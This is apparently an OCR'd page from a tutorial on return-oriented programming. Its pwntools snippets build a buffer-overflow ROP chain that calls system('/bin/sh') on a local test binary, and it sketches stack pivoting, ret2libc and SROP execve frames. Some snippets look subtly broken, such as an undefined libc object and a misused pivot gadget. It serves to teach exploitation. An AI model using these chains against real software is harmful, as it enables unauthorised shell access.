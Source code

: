 ### Goal: Call `system("/bin/sh")`

1. **Find `/bin/sh` in memory** (or write it). 
2. **Find `system()` address** (from PLT/GOT or libc).
3. **Set `rdi = "/bin/sh"`** (x64 calling convention).

```python
from pwn import *

elf = ELF("./vulnerable_binary")
rop = ROP(elf)

# Find gadgets
rop.raw(b"A" * 128)  # Padding to overflow buffer
rop.rdi = next(elf.search(b"/bin/sh"))  # Set RDI = "/bin/sh"
rop.call(elf.symbols['system'])  # Call system()

# Print the ROP chain
print(rop.dump())

# Send payload
p = process("./vulnerable_binary")
p.sendline(rop.chain())
p.interactive()
```


### Advanced ROP Techniques

#### 1. Stack Pivoting

If stack space is limited, **move the stack** to a controllable location (e.g., heap).

```python
rop.raw(b"A" * 128)  # Padding
rop.rax = heap_addr  # New stack location
rop.leave_ret = rop.find_gadget(["leave", "ret"])[0]  # pivot stack
```

#### 2. Ret2Libc

Call libc functions directly (bypassing PLT).

```python
rop.call(libc.symbols['system'], [next(libc.search(b"/bin/sh"))])
```

#### 3. SigReturn-Oriented Programming (SROP)

For advanced exploitation (requires `sigreturn` syscall).

```python
frame = SigreturnFrame()
frame.rax = 0x3b            # execve syscall
frame.rdi = binsh_addr      # /bin/sh
frame.rsi = 0               # argv
frame.rdx = 0               # envp
frame.rip = syscall_addr

rop.raw(frame)
```
